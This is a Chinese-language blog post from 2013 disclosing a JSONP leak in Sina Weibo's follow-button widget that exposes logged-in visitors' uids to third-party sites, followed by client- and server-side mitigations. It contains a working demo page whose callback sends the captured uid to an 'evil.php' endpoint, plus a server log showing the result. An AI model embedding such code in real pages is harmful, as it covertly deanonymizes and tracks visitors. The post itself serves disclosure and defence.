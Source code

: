 ```yaml
---
layout: post
title: "Who Are You"
date: 2013-01-25 22:20
comments: true
categories: 
---
```


这两天在研究新浪微博的第三方插件实现，无意中发现通过利用新浪微博的某个URL能让我获取当前访问这个URL的用户的微博uid。也就是说只要在某个网站中嵌入一段代码，这段代码在后台偷偷地访问那个URL，然后就可以把访问这个网站的用户的微博uid获取到，于是隐私就被泄露了…… 也就是说一个网站可以知道有哪些微博用户访问了它，然后可以就此采取一系列的措施……  
下面就具体讲讲这个漏洞是怎么回事。

<!-- more -->

## 问题
大家都知道微博会提供一些第三方插件(widget)用来放在其他网站上，其中有一个就是关注按钮。通过这个关注按钮用户就可以在第三方网站上直接关注某个人，如果当前访问用户已经关注过了，则该关注按钮会显示已关注。接下来我们就要看看在一个第三方的网站上新浪微博是怎样知道当前访问用户是否已经关注了某个账号，而这个涉及到[JavaScript跨域问题](http://en.wikipedia.org/wiki/Same_origin_policy)。通过查看插件的js代码和浏览器的http请求，发现如果引入关注按钮插件的话会有如下的一个http请求：
	http://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_13591259816211

返回结果是：
	STK_13591259816211({"code":"100000","msg":"success","data":{"relation":3,"login":true,"uid":2369955640}})

从这个http请求来看新浪采用了[jsonp](http://en.wikipedia.org/wiki/JSONP)技术来解决跨域问题。从返回结果猜测data.relation应该表明当前用户和fuid用户之间的关系，可能是是否关注fuid，是否双向关注等等。问题的关键是新浪把当前用户的uid也返回回来了，如果第三方网站能获取这个uid，就能知道当前访问用户是谁了。

## 示例
接下来我就写了一个demo来模拟这个过程。首先是先写一个第三方网页：
``` html
<!doctype html>
<html>
<head>
</head>
<body>
<p> Hello World </p>
<script>
function STK_1(data) {
// wow, get the uid
var uid = data.data.uid;
// save the uid to the server
var xmlHttp = new XMLHttpRequest();
xmlHttp.open( "GET", "http://www.jjyao.me/evil.php?uid=" + uid, true );
xmlHttp.send(null);
}
</script>
<script src="http://widget.weibo.com/public/aj_relationship.php?fuid=2991975565&callback=STK_1"></script>
</body>
</html>
```
每当用户访问这个网页的时候就在后面发一个aj_relationship.php的请求，然后指定一个已经定义好的callback，这样等请求结果返回后指定的callback就会被执行，于是就可以获取到当前登陆用户的微博uid了，最后要做的就是将这个uid传回给服务器保存起来。而这个可以通过服务器的log来实现，比如Nginx有access log，会将每个访问的url记录在日志中，结果如下：
	219.219.125.217 - - [25/Jan/2013:14:38:39 +0000] "GET /evil.php?uid=2369955640 HTTP/1.1" 200 31 "http://www.jjyao.me/index.html" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_2) AppleWebKit/537.17 (KHTML, like Gecko) Chrome/24.0.1312.56 Safari/537.17"
于是在服务器端就可以统计有哪些微博用户访问了这个网站，他们都是谁。

正如上面所说的那样，只要添加一些简单的代码，一个网站就可以知道哪些用户访问了，因为知道微博账号实际上很大程度等于知道了用户的真实身份。也就是说通过微博的这么一个漏洞，我们的隐私被泄露了，我们实际上没有匿名访问一个网站，而都是实名在访问，想想还是蛮可怕的。

## 解决
解决这个问题的手段无非就是两大类：一类是用户在客户端解决，一类是新浪在服务端解决。

### 客户端解决
在客户端解决的话我们要做的就是在向widget.weibo.com发送请求时，不让浏览器发送新浪微博的Session Cookie和Third-Party Cookie，因为就是这Cookie才使得新浪知道当前用户是谁的。相比于禁止发送Session Cookie而言，禁止Third-Party Cookie会更容易。要想禁止Third-Party Cookie可以禁止储存它或者储存了但是禁止发送。要想不存储Third-Party Cookie可以选择不记住密码，在Chrome的Incognito Window中打开，在浏览器中设置不保存Cookie这几种方法。而要想禁止发送Third-Party Cookie可以选择IE或者Safari浏览器，因为这两个浏览器出于安全的考虑，默认禁止了浏览器在`<img>`、`<iframe>`、`<script>`、`<link>`等标签中发送Third-Party Cookie，所以如果用IE或者Safari，那么网站可能不知道当前用户是谁了。解决了Third-Party Cookie并不表示问题解决了，因为还有Session Cookie。也就说如果在当前Session中访问过新浪微博，那么微博就会设置Session Cookie，在同一个Session再去访问安插有恶意代码的网站，还是能使网站知道当前用户的微博uid，因此在访问完新浪后要退出浏览器或者执行其他能让浏览器清除Session Cookie的操作，然后再去访问其他网站，这样就能解决Session Cookie的问题了。只有同时解决了Session Cookie和Third-Party Cookie，上述的隐私泄露问题才能得到解决。

### 服务器端解决
服务器端解决最简单的方法就是不返回uid信息，或者是采取措施限制CSRF。对于后一种做法就引申出一个大的Topic了，有兴趣的可以看看[《白帽子讲Web安全》](http://book.douban.com/subject/10546925/)中有关于如何防止CSRF的章节。另外，这确实是本好书:)
